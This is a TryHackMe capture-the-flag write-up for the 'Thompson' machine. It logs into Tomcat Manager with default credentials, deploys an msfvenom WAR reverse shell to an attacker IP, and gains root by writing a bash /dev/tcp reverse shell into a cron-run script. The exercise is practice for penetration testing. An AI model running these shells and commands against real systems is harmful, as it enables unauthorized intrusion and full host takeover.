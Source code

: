 ```yaml
---
title: "Thompson - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Thompson
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Thompson
![](https://kar0nx.github.io/assets/images/writeup/f5e35bf1d933a9b45077e5388635a593.png)

## Reconnaissance

IP: 10.10.102.104
### NMAP

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-19 07:37 EDT
Nmap scan report for 10.10.102.104
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/19%OT=22%CT=1%CU=33985%PV=Y%DS=2%DC=T%G=Y%TM=682B
OS:183C%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)SEQ(S
OS:P=105%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ(SP=105%GCD=2%ISR=10C%TI=Z%CI
OS:=I%II=I%TS=8)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST
OS:11NW7%O5=M509ST11NW7%O6=M509ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=
OS:68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   45.36 ms 10.21.0.1
2   45.45 ms 10.10.102.104

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.21 seconds

```

Nmap shows 3 open ports 8080 http - Apache Tomcat 8.5.5, 8009 ajp13 - Apache Jserv and 22 ssh.
## Website
### Site

```
http://10.10.102.104:8080/
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519133857.png)

We can see simple Apache Tomcat server site, lets open manager app and host manager in tabs. We see the login window and after click "cancel". Site redirect us to: 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519134125.png)

where we see default credentials - username="tomcat" password="s3cret"

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519134240.png)

luckily the login and password match an we are in.
## Gaining Access

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519134948.png)

In Manager App we can see that it is possible to put war file on server, so lets make reverse shell using msfvenom: https://www.revshells.com/

```
msfvenom -p java/shell_reverse_tcp LHOST=10.21.187.191 LPORT=1337 -f war -o shell.war
```

create file on kali and put it on server. Now set netcat on Kali and navigate to:

http://10.10.102.104:8080/shell/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519135231.png)

We have shell, lets upgrade to TTY shell:

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

and grab user flag.
## Privilege Escalation

While capturing user flag I recognized interesting files in user home directory. 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519135801.png)

We can see that the id.sh script executes id command and gives the result as test.txt. As you can see this was executed by root, so let's look at cronetab to see why.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519141236.png)

Now we know that id.sh will be executed by root, so let's use simple one-liner reverse shell, set nc, and run script.

```
echo "sudo /bin/bash -i >& /dev/tcp/10.21.187.191/1338 0>&1" > id.sh

bash id.sh
```

We have root access, now grab your last flag in /root/root.txt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250519140603.png)